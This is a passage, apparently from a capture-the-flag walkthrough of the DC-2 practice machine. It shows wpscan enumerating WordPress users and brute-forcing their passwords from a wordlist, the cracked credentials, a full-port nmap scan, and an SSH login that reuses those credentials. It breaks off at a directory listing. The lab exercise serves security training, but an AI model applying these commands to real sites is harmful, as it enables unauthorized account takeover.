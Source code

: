 ┌─[root\@parrot]─[/home/user] └──╼ \#wpscan -P /home/user/dc-2.txt -e vp --url http://dc-2
------------------------------------------------------------------------------------------

output of wordpress scans
=========================

[i] User(s) Identified:

[+] admin \| Detected By: Rss Generator (Passive Detection) \| Confirmed By: \|
Author Id Brute Forcing - Author Pattern (Aggressive Detection) \| Login Error
Messages (Aggressive Detection)

[+] tom \| Detected By: Author Id Brute Forcing - Author Pattern (Aggressive
Detection) \| Confirmed By: Login Error Messages (Aggressive Detection)

[+] jerry \| Detected By: Author Id Brute Forcing - Author Pattern (Aggressive
Detection) \| Confirmed By: Login Error Messages (Aggressive Detection)

[i] Valid Combinations Found: \| Username: jerry, Password: adipiscing \|
Username: tom, Password: parturient

After wpscan a lot of information, I found out and using login credentials
obtained, I was able to find out the second flag.

flag2
-----

Flag 2:

If you can't exploit WordPress and take a shortcut, there is another way.

Hope you found another entry point.

Results of zenmap:

\#zenmap command
----------------

nmap -p 1-65535 -T4 -A -v 192.168.0.131
---------------------------------------

results: 7744/tcp open ssh OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0) \|
ssh-hostkey: \| 1024 52:51:7b:6e:70:a4:33:7a:d2:4b:e1:0b:5a:0f:9e:d7 (DSA) \|
2048 59:11:d8:af:38:51:8f:41:a7:44:b3:28:03:80:99:42 (RSA) \| 256
df:18:1d:74:26:ce:c1:4f:6f:2f:c1:26:54:31:51:91 (ECDSA) \|\_ 256
d9:38:5f:99:7c:0d:64:7e:1d:46:f6:e9:7c:c6:37:17 (ED25519)

After looking at output of zenmap, I was able to figure out that ssh service is
running at port 7744.

\#Privilege Escalation
======================

Using the username and password obtained, I was able to connect with ssh service

[root\@parrot]─[/home/user] └──╼ \#ssh tom\@192.168.0.131 -p 7744
-----------------------------------------------------------------

tom\@DC-2:\~\$ ls flag3.txt usr
